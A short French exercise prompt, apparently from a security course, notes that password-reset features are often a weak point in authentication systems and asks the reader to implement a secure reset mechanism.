== Reinitialisation de mot de passe.

La fonction de réinitialisation de mot de passe est souvent une faille d'un système d'authentification.

Mettez en place un système de réinitialisation sécurisé.


